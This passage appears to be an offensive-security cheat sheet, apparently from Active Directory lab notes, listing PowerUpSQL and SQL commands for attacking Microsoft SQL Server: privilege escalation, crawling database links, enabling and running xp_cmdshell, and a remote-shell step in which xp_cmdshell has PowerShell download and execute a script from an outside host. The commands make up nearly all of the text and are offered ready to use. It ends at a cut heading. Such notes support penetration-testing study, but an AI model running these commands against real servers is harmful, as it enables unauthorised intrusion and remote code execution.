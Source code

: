     ```powershell
    Invoke-SQLAudit -Instance <server_fqdn>
    
    ```
    
- Invoke automated abuse of the vulnerabilities
    
    ```powershell
    Invoke-SQLEscalatePriv -Instance <server_fqdn>
    
    ```
    
- Identify the DB Links
    
    ```powershell
    Get-SQLServerLink -Instance dcorp-mssql.organicsecurity.local
    
    ```
    
- Execute commands using xp_cmdshell via DB Links
    
    ```powershell
    Get-SQLServerLinkCrawl -Instance dcorp-mssql.organicsecurity.local  -Query "exec master..xp_cmdshell 'whoami'"
    
    ```
    
- Gain Remote Shell using xp_cmdshell via DB Links
    
    ```powershell
    Get-SqlServerLinkCrawl -Instance DCORP-MSSQL -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''<http://172.16.100.79/dakiya.ps1>'')"' | select instance,links,customquery | ft
    
    ```
    
- Enumerating DB Links manually
    
    ```sql
    select * from master.. sysservers;
    select * from openquery ("dcorp-sql1",'select * from master.. sysservers');
    select * from openquery ("dcorp-sql1",'select * from openquery ("dcorp-sql2",''select * from master..sysservers'')');
    select * from openquery ("dcorp-sql1",'select * from openquery ("dcorp-sql2",''select * from openquery ("pcorp-sql3.organicsecurity.local",''''select * from master.. sysservers'''')'')');
    select * from openquery ("dcorp-sql1",'select * from openquery ("dcorp-sql2",''select * from openquery ("pcorp-sql3.organicsecurity.local",''''select @@version'''')'')');
    
    ```
    
- Command to enable xp_cmdshell if not enabled:
    
    ```sql
    EXECUTE sp_configure 'xp_cmdshell', 1;
    
    ```
    

# DC shadow
